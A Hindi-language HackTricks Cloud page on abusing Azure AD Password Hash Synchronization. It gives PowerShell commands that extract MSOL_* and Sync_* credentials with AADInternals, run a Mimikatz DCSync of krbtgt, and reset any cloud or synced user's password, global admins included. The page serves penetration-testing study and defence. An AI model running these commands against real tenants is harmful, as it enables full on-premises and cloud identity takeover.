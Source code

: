 # Az - PHS - पासवर्ड हैश सिंक्रनाइज़ेशन

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## मूल जानकारी

**पासवर्ड हैश सिंक्रनाइज़ेशन** हाइब्रिड पहचान को पूरा करने के लिए प्रयुक्त साइन-इन विधियों में से एक है। **Azure AD Connect** एक ऑन-प्रिमाइसेस Active Directory इंस्टेंस से एक यूजर के पासवर्ड के हैश का हैश, क्लाउड-आधारित Azure AD इंस्टेंस में सिंक्रनाइज़ करता है।

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यह कंपनियों द्वारा ऑन-प्रिम AD को Azure AD के साथ सिंक्रनाइज़ करने के लिए **सबसे आम विधि** है।

सभी **यूजर्स** और पासवर्ड हैशेस का **हैश** ऑन-प्रिम से Azure AD में सिंक्रनाइज़ किया जाता है। हालांकि, **स्पष्ट-पाठ पासवर्ड** या **मूल** **हैशेस** Azure AD में नहीं भेजे जाते हैं।\
इसके अलावा, **बिल्ट-इन** सुरक्षा समूह (जैसे डोमेन एडमिन्स...) Azure AD में **सिंक्रनाइज़ नहीं किए जाते** हैं।

**हैशेस सिंक्रनाइज़ेशन** हर **2 मिनट** में होता है। हालांकि, डिफ़ॉल्ट रूप से, **पासवर्ड समाप्ति** और **खाता** **समाप्ति** Azure AD में **सिंक्रनाइज़ नहीं** होती है। इसलिए, एक यूजर जिसका **ऑन-प्रिम पासवर्ड समाप्त हो गया है** (परिवर्तित नहीं किया गया) पुराने पासवर्ड का उपयोग करके Azure संसाधनों तक पहुंच जारी रख सकता है।

जब एक ऑन-प्रिम यूजर Azure संसाधन तक पहुंचना चाहता है, तो **प्रमाणीकरण Azure AD पर होता है**।

**PHS** जैसी सुविधाओं के लिए आवश्यक है जैसे **Identity Protection** और AAD Domain Services।

## पिवोटिंग

जब PHS कॉन्फ़िगर किया जाता है तो कुछ **विशेषाधिकार प्राप्त खाते** स्वचालित रूप से **बनाए जाते हैं**:

* खाता **`MSOL_<installationID>`** ऑन-प्रिम AD में स्वचालित रूप से बनाया जाता है। इस खाते को **Directory Synchronization Accounts** भूमिका दी जाती है (देखें [दस्तावेज़ीकरण](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) जिसका अर्थ है कि इसमें ऑन-प्रिम AD में **प्रतिकृति (DCSync) अनुमतियां** होती हैं।
* Azure AD में एक खाता **`Sync_<on-prem ADConnect Server का नाम>_installationID`** बनाया जाता है। यह खाता Azure AD में किसी भी यूजर (सिंक्रनाइज़ या क्लाउड केवल) का **पासवर्ड रीसेट** कर सकता है।

इन दो पिछले विशेषाधिकार प्राप्त खातों के पासवर्ड **SQL सर्वर पर संग्रहीत** किए जाते हैं जो **Azure AD Connect स्थापित** सर्वर पर होता है। एडमिन स्पष्ट-पाठ में उन विशेषाधिकार प्राप्त उपयोगकर्ताओं के पासवर्ड निकाल सकते हैं।\
डेटाबेस `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` में स्थित है।

एक टेबल से कॉन्फ़िगरेशन निकालना संभव है, जिसमें से एक एन्क्रिप्टेड है:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**एन्क्रिप्टेड कॉन्फ़िगरेशन** **DPAPI** के साथ एन्क्रिप्टेड है और इसमें ऑन-प्रिम AD में **`MSOL_*`** उपयोगकर्ता के पासवर्ड और AzureAD में **Sync\_\*** का पासवर्ड शामिल है। इसलिए, इन्हें समझौता करने से AD और AzureAD में प्रिवेस्क करना संभव है।

इन क्रेडेंशियल्स कैसे संग्रहीत और डिक्रिप्ट किए जाते हैं, इसका [पूरा अवलोकन इस वार्ता में पाया जा सकता है](https://www.youtube.com/watch?v=JEIR5oGCwdg)।

### **Azure AD connect server** का पता लगाना

यदि **Azure AD connect स्थापित सर्वर** डोमेन से जुड़ा हुआ है (दस्तावेज़ों में सिफारिश की गई), तो इसे खोजना संभव है:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### MSOL\_\* का दुरुपयोग
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
आप [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) का उपयोग करके भी इन क्रेडेंशियल्स को प्राप्त कर सकते हैं।
{% endhint %}

### Sync\_\* का दुरुपयोग

**`Sync_*`** अकाउंट को समझौता करके किसी भी उपयोगकर्ता (ग्लोबल एडमिनिस्ट्रेटर्स सहित) का **पासवर्ड रीसेट** करना संभव है।
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
यह संभव है कि केवल **क्लाउड उपयोगकर्ताओं के पासवर्ड में परिवर्तन किया जाए** (भले ही वह अप्रत्याशित हो)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
इस उपयोगकर्ता का पासवर्ड डंप करना भी संभव है।

{% hint style="danger" %}
एक और विकल्प होगा **सेवा सिद्धांत को विशेषाधिकार प्राप्त अनुमतियाँ सौंपना**, जिसे **सिंक** उपयोगकर्ता के पास **अनुमतियाँ** होती हैं, और फिर **उस सेवा सिद्धांत को प्राप्त करना** प्रिवेस्क के रूप में।
{% endhint %}

### सीमलेस SSO

PHS के साथ सीमलेस SSO का उपयोग संभव है, जो अन्य दुरुपयोगों के लिए संवेदनशील है। इसे जांचें:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
